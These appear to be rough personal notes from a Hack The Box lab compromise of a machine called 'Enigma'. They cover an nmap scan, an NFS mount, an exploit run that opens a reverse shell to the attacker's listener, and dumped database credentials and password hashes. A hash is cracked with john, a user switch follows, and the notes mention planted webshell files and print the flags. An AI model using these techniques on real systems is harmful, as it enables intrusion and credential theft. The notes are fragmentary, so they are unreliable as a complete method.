

# Enigma

sudo nmap -sCV 10.129.53.20
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-09-06 08:18 EDT
Nmap scan report for 10.129.53.20
Host is up (0.0079s latency).
Not shown: 992 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp   open  http     nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to [http://enigma.htb/](http://enigma.htb/)
|_http-server-header: nginx/1.24.0 (Ubuntu)
110/tcp  open  pop3     Dovecot pop3d
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Not valid before: 2026-02-18T20:33:33
|_Not valid after:  2036-02-16T20:33:33
|_ssl-date: TLS randomness does not represent time
|*pop3-capabilities: UIDL TOP AUTH-RESP-CODE RESP-CODES STLS CAPA SASL PIPELINING
111/tcp  open  rpcbind  2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36347/tcp6  mountd
|   100005  1,2,3      55140/udp   mountd
|   100005  1,2,3      55727/udp6  mountd
|   100005  1,2,3      59845/tcp   mountd
|   100021  1,3,4      35141/tcp6  nlockmgr
|   100021  1,3,4      36930/udp6  nlockmgr
|   100021  1,3,4      37785/udp   nlockmgr
|   100021  1,3,4      39327/tcp   nlockmgr
|   100024  1          33159/tcp   status
|   100024  1          43874/udp6  status
|   100024  1          47438/udp   status
|   100024  1          48103/tcp6  status
|   100227  3           2049/tcp   nfs_acl
|*  100227  3           2049/tcp6  nfs_acl
143/tcp  open  imap     Dovecot imapd (Ubuntu)
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Not valid before: 2026-02-18T20:33:33
|_Not valid after:  2036-02-16T20:33:33
|_imap-capabilities: SASL-IR more ENABLE STARTTLS LOGIN-REFERRALS OK listed Pre-login IMAP4rev1 capabilities ID post-login LOGINDISABLEDA0001 have IDLE LITERAL+
|_ssl-date: TLS randomness does not represent time
993/tcp  open  ssl/imap Dovecot imapd (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Not valid before: 2026-02-18T20:33:33
|_Not valid after:  2036-02-16T20:33:33
|_imap-capabilities: SASL-IR ENABLE more AUTH=PLAINA0001 OK listed Pre-login IMAP4rev1 capabilities ID post-login LOGIN-REFERRALS have IDLE LITERAL+
995/tcp  open  ssl/pop3 Dovecot pop3d
|_pop3-capabilities: UIDL TOP AUTH-RESP-CODE RESP-CODES USER CAPA SASL(PLAIN) PIPELINING
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Not valid before: 2026-02-18T20:33:33
|_Not valid after:  2036-02-16T20:33:33
2049/tcp open  nfs_acl  3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 15.14 seconds

showmount -e 10.129.53.20
Export list for 10.129.53.20:
/srv/nfs/onboarding *

cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	pwnbox7.1

::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
127.0.0.1 localhost
127.0.1.1 htb-phrrs5nwcy [htb-phrrs5nwcy.htb-cloud.com](http://htb-phrrs5nwcy.htb-cloud.com/)
10.129.53.20 enigma.htb

sudo mount -t nfs -o vers=3 10.129.53.20:/srv/nfs/onboarding /home/ronking37/nfs/

cd nfs

ls
New_Employee_Access.pdf

added mail001.enigma.htb to /etc/hosts

Roundcube Webmail 1.6.16

ssh kevin@enigma.htb
The authenticity of host 'enigma.htb (10.129.239.191)' can't be established.
ED25519 key fingerprint is SHA256:OZNUeTZ9jastNKKQ1tFXatbeOZzSFg5Dt7nhwhjorR0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'enigma.htb' (ED25519) to the list of known hosts.
kevin@enigma.htb: Permission denied (publickey).

sarah had the same password on the webserver

admin:Ne3s4rtars78s

python3 [exploit.py](http://exploit.py/) -u http://support_001.enigma.htb -P Ne3s4rtars78s --lhost 10.10.14.80 --lport 4442 --phpggc ../phpggc/phpggc

nc -lvnp 4442
Listening on 0.0.0.0 4442
Connection received on 10.129.239.191 51624
bash: cannot set terminal process group (1421): Inappropriate ioctl for device
bash: no job control in this shell
www-data@enigma:~/html/openstamanager$ di
di
Command 'di' not found, but can be installed with:
apt install di
Please ask your administrator.
www-data@enigma:~/html/openstamanager$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@enigma:~/html/openstamanager$

mysql> select * from zz_users;
+----+----------+--------------------------------------------------------------+------------------+--------------+----------+---------+---------------------+---------------------+-------------+---------------+---------+
| id | username | password                                                     | email            | idanagrafica | idgruppo | enabled | created_at          | updated_at          | reset_token | image_file_id | options |
+----+----------+--------------------------------------------------------------+------------------+--------------+----------+---------+---------------------+---------------------+-------------+---------------+---------+
|  1 | admin    | $2y$10$rTJVUNyGGKPlhw2cFdf5AeDHVMhnIChddcHx2XxVLMQS2KsuSz4Pu | admin@enigma.htb |            1 |        1 |       1 | 2026-02-18 19:26:52 | 2026-02-18 19:26:52 | NULL        |          NULL |         |
|  2 | haris    | $2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC | haris@enigma.htb |            1 |        5 |       1 | 2026-02-18 20:58:28 | 2026-05-26 11:07:03 | NULL        |          NULL |         |

www-data@enigma:~/html/openstamanager$ cat config.inc.php
<?php

/*

- OpenSTAManager: il software gestionale open source per l'assistenza tecnica e la fatturazione
- Copyright (C) DevCode s.r.l.
- 
- This program is free software: you can redistribute it and/or modify
- it under the terms of the GNU General Public License as published by
- the Free Software Foundation, either version 3 of the License, or
- (at your option) any later version.
- 
- This program is distributed in the hope that it will be useful,
- but WITHOUT ANY WARRANTY; without even the implied warranty of
- MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
- GNU General Public License for more details.
- 
- You should have received a copy of the GNU General Public License
- along with this program. If not, see [https://www.gnu.org/licenses/](https://www.gnu.org/licenses/).
*/

// Impostazioni di base per l'accesso al database
$db_host = 'localhost';
$db_username = 'brollin';
$db_password = 'Fri3nds@9099';
$db_name = 'openstamanager';
// $port = '|port|';
$db_options = [
// 'sort_buffer_size' => '2M',
];

// Tema selezionato per il front-end
$theme = 'default';

// Impostazioni di sicurezza
$redirectHTTPS = false; // Redirect automatico delle richieste da HTTP a HTTPS
$disableCSRF = true; // Protezione contro CSRF

// Impostazioni di debug
$debug = false;

$disable_hooks = false;

// Permette di accedere solo con un ip (da utilizzare per manutenzione)
$maintenance_ip = '';

// Personalizzazione dei gestori dei tag personalizzati
$HTMLWrapper = null;
$HTMLHandlers = [];
$HTMLManagers = [];

// Lingua del progetto (per la traduzione e la conversione numerica)
$lang = 'en_GB';
// Personalizzazione della formattazione di timestamp, date e orari
$formatter = [
'timestamp' => 'd/m/Y H:i',
'date' => 'd/m/Y',
'time' => 'H:i',
'number' => [
'decimals' => ',',
'thousands' => '',
],
];

// Ulteriori file CSS e JS da includere
$assets = [
'css' => [],
'print' => [],
'js' => [],
];

// Configura il limite di tempo di esecuzione del file cron.php
$php_time_limit = '';

Source: /var/www/html/openstamanager/config.inc.php
Value: DB brollin : Fri3nds@9099 (MySQL-only user, no shell)
────────────────────────────────────────
Source: /var/www/html/roundcube/config/config.inc.php
Value: DB roundcube : Yo270x26!gTx02, des_key = mUW4idQIgKeYum1hcONJCkCR
────────────────────────────────────────
Source: /etc/passwd
Value: only haris (uid 1000) and root have shells; kevin/sarah/it are
mail-only
────────────────────────────────────────
Source: /opt/OliveTin/
Value: web tool that runs predefined shell commands — likely the www-data →
haris/root priv-esc path
────────────────────────────────────────
Source: /var/mail/{it,kevin,root}
Value: non-empty, unread by you (root's is freshly written)
────────────────────────────────────────
Source: secure_file_priv=/var/lib/mysql-files/
Value: so no INTO OUTFILE webshell / LOAD_FILE

Artifacts left on target to clean up: zz_oauth2 rows id 91111 / 92000–92030
(states dbgstate1, fw0–fw3, pwn), and s9k.php + files/s9k.php in the OSM
webroot.

Next pivot: OliveTin (:1337 locally, or /opt/OliveTin/config.yaml) and root's
mailbox — that's the route off www-data toward haris/root. Fri3nds@9099 /
Yo270x26!gTx02 did not work for su to any user.

sudo john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bestfriends      (?)

www-data@enigma:/opt/OliveTin/OliveTin-linux-amd64$ su haris
Password:

haris@enigma:/opt/OliveTin/OliveTin-linux-amd64$ /home/haris
bash: /home/haris: Is a directory
haris@enigma:/opt/OliveTin/OliveTin-linux-amd64$ ls
config.yaml  Dockerfile  LICENSE  OliveTin  [README.md](http://readme.md/)  var  webui
haris@enigma:/opt/OliveTin/OliveTin-linux-amd64$ cd /home/haris
haris@enigma:~$ls
mail  user.txt
haris@enigma:~$ cat user.txt
37f10c85a558ddf8a3ffa67b89706d37

ac59c06bddafc2a99326a1eb4239f947

custom POC